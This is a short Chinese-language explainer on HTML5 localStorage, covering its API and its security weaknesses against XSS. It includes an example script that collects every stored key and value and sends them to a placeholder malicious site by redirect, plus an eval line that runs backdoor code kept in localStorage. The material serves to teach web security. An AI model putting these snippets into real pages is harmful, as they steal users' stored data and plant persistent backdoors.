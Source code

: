 ##简介
----

* HTML5本地存储被视作是新时代Cookie的替代品。HTML5的本地存储是使用localStorage对象将WEB数据持久化在本地。相比较而言HTML5本地存储中每个域的存储大小默认是5M，比起Cookie的4K要大的多。而且存储和读取数据的代码极为简练： 

* 主要接口函数有下面几个：

	Window.localStorage.setItem(key,value);//存储数据 
	Window.localStorage.getItem(key);//读取数据 
	Window.localStorage.removeItem(key);//删除数据项 
	Window.localStorage.clear();//删除所有数据

----

##安全问题

####没有XSS的保护机制

* cookie有httponly等属性能够保护cookie不被xss攻击，但是localStorage就没有。一旦发生XSS，攻击者能够直接获得存储的信息。
攻击代码示例：

	var i = 0;
	var str = "";
	while (localStorage.key(i) != null)
	{
	    var key = localStorage.key(i); 
	    str += key + ": " + localStorage.getItem(key);
	    i++;
	}
	document.location="http://your-malicious-site.com?stolen="+ str;

####容易遭受跨目录攻击

* cookie可以指定域中的存储路径，但是localStorage没有这样的概念。也就是说，如果同一个域下的任意路径存在XSS漏洞，整个域下存储的数据在知道存储名称的情况下都可以被获取到。

* 例如，现在有两个用户Jack 和Tom，他们共同在某网站下有一个博客如：blog.xxx.com/Jack , blog.xxx.com/Tom 。现在Jack发现了该网站的一个XSS漏洞，那么他在自己的博客中存储下xss攻击代码。那么Tom只要访问 blog.xxx.com/Jack , 就会把自己本地的localStorage数据暴露给XSS代码。

####可以作为恶意代码存储的温床

localStorage的存储是永久的，那么就可以作为web shell code 的存储位置，这样在xss中添加类似这样的代码 

	eval(window.localStorage.getItem("webshellcode"));

就能够取出shellcode进行攻击。从而留下了后门。